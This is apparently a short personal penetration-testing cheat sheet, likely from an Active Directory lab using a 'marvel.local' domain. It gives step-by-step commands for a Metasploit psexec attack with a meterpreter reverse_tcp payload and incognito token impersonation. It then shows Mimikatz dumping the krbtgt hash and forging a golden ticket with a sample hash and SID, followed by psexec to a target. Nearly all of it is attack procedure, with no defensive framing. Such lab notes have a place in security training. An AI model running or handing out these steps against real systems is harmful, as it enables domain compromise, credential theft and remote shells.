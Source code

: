 ```yaml
---
title: GOLDEN TICKET
updated: 2023-11-27 06:53:00Z
created: 2023-09-29 05:03:34Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# TOKEN IMPERSONATION
1. Launch **msfconsole** 
2. `search psexec` 
3. `use 4`
4. `set payload windows/x64/meterpreter/reverse_tcp`
5. `set rhosts <target IP>`
6. `set smbuser user`
7. `set smbpasswd password`
8. `run`
9. `load incognito`
10. `list_tokens -u`
11. `impersonate_user DOMAIN\\user`
***

## GOLDEN TICKET
1. `mimikatz` 
2. `lsadump:: /inject /name:krbtgt`
Copy the domain SID, and the Primary NTLM hash
3. Generate Golden Ticket using format:
`kerberos::golden /user: /domain: /sid:<domainSID> /krbtgt:<NTLMHash> /id:<SId of Administrator>`
`kerberos::golden /user:Administrator /krbtgt:2112d895a265561c7acae62ce83a5504 /domain:marvel.local /sid:S-1-5-21-2078907545-1247724622 /ptt /id:500`
4. Now the ticket can be used
`misc::cmd`
5. **cmd**> `psexec.exe \\<target IP> cmd.exe`
***







